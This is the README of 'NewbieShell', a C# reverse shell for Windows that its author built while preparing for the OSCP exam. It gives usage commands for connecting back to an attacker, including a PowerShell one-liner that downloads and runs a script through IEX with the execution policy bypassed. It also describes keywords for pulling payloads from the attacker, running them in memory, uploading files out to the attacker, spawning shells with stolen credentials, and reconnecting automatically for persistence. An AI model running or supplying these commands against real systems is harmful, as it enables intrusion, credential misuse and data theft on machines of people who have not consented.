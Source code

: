 # NewbieShell
## Reverse shell for beginners

When preparing for the OSCP certificate, I mostly used Netcat and an msfvenom payload for a connection. The most annoying thing for me was that downloading and uploading software required a very long text. Furthermore, when the connection was interrupted, I had to rebuild the connection most of the time. Since I like to program in C#, I thought I could simplify this. With this idea the NewbieShell was born. The goal was to execute code with short keywords, like download. This saves the attacker time and nerves. Moreover, as the name "NewbieShell" suggests, this software is also intended for beginners. 

## Usage

There are three ways to use NewbieShell. The simple method in the Console.

```
NewbieShell.exe
```

In this method the program asks for an IP address, port and whether to use cmd.exe or powershell.exe as return.

The second option is to use NewbieShell like Netcat.

```
Newbieshell.exe <ip> <port> <cmd.exe or powershell.exe>
```

Example: NewbieShell.exe 192.168.0.1 80 cmd.exe

If Powershell.exe is executed, then NewbieShell executes the command "-ep bypass" in the background. This sets the ExecutionPolicy to bypass.

The third option is via a ps1 file. It is possible to run a web server on the attacker machine and then execute the code with the Powershell IEX command. Please note that in this option the IP address and the port on the ps1 file should be changed.

```
powershell -c "(iex (New-Object System.Net.Webclient).DownloadString('http://ip/NewbieShell.ps1'))"
```

### NewbieShell Console
All Windows commands can be inserted normally. For example, if you want to download something from a web server, then you have the possibility to execute a download with so-called keywords. The keyword for download is #D

After entering the keyword, a query comes from the system about which file it is and so on. Further information can be found below in the documentation.

#### Temp Folder

The first time NewbieShell connects, a folder is set up under the path C:\temp. This folder is where all data is stored/downloaded

#### Download - Keyword #D

As already described above, the keyword #D is the download function. NewbieShell specifies that a web server should be running on the attacker's side. The "http.server" based on Python3, is available by default on Kali Linux. With this command a web server can be executed on the attacker machine.

```
python3 -m http.server 80
```

In the next step, the software will ask for the file that should be downloaded.
Because NewbieShell knows the IP address of the attacker. The query for the attacker IP address is omitted.

If the file has been downloaded, it can be found in the C:\temp directory.

#### IEX - Keyword #IEX

The IEX command is often used to execute malware. For example, a .ps1 file is executed without saving the file to the hard disk.
As with the download function, a web server is required. This should be executed on the attacker's computer. 

#### Upload - Keyword #U

I often had the case that I wanted to upload files such as Sharphound files to my attacker PC. I did not always want to use an SMB share. I have thought about whether this is easier. Unfortunately, the upload - function does not work with the standard Python3 "http.server", because this web server does not accept post - function. But there is another webserver which can do this. This can be easily installed with this command on the attacker side.

```
pip3 install uploadserver
```

After the web server or upload server is installed, then it can be run on the attacker machine.

```
python3 - m uploadserver 80
```

For info NewbieShell accurately indicates that the upload server should be installed and running.

NewbieShell requests the full path of the file. After a successful upload, the file should be discoverable on the attacker's site.

#### Impersonation - Keyword #I

If you have found any credentials during the attack, you have the possibility to generate a new shell with these credentials using NewbieShell.
The system will ask for the username, password and domain. If there is no domain, this line can be left blank.

#### Persistence - Keyword #P

After a disconnection, the program tries to reconnect to the attacker. A timeout period can be defined for this. After this time the program sends a new request to the attacker.

## Disclaimer
I do not take any responsability! 

## Future

My goal would be to generate as many keywords as possible.
